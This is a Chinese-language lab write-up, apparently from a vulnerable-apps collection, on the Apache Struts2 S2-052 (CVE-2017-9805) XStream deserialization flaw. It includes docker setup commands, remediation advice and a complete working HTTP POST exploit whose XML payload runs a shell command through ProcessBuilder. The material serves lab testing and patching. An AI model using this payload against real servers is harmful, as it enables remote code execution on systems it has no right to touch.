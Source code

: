 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-052)"
date: 2017-09-06 10:19:23
image: '/assets/img/'
description: 'Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境'
introduction: 'Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境'
---
```


### 漏洞信息

 * [S2-052 公告](https://cwiki.apache.org/confluence/display/WW/S2-052)

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:s_struts2_s2-052
 ```

2. 启动环境
 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-052
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp 

> 来源：[Tomcat部署war - caiqiiqi的博客](http://blog.csdn.net/caiqiiqi/article/details/77861477)

执行 `/usr/bin/touch /tmp/vuln` 命令：

```
POST /orders;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 1659
Referer: http://127.0.0.1:8080/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1


<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command><string>/usr/bin/touch</string><string>/tmp/vuln</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map>
```

发送之后，会在目标主机创建 `/tmp/vuln` 文件

**注意**

`POST /orders` 这个链接在本例中是这样请求的，在实际测试过程中可以直接对站点根目录请求 `POST /`

### 修复建议

1. 升级Apache struts 至 2.5.13 版本

2. 如果系统没有使用Struts REST插件，那么可以直接删除Struts REST插件，或者在配置文件中加入如下代码，限制服务端文件的扩展名
 ```
    <constant name="struts.action.extension" value="xhtml,,json" />
 ```

### 参考链接

* [Using QL to find a remote code execution vulnerability in Apache Struts (CVE-2017-9805)](https://lgtm.com/blog/apache_struts_CVE-2017-9805)
* [【漏洞预警】Apache Struts2插件高危漏洞(S2-052)](http://bobao.360.cn/news/detail/4291.html)
* [Tomcat部署war - caiqiiqi的博客](http://blog.csdn.net/caiqiiqi/article/details/77861477)
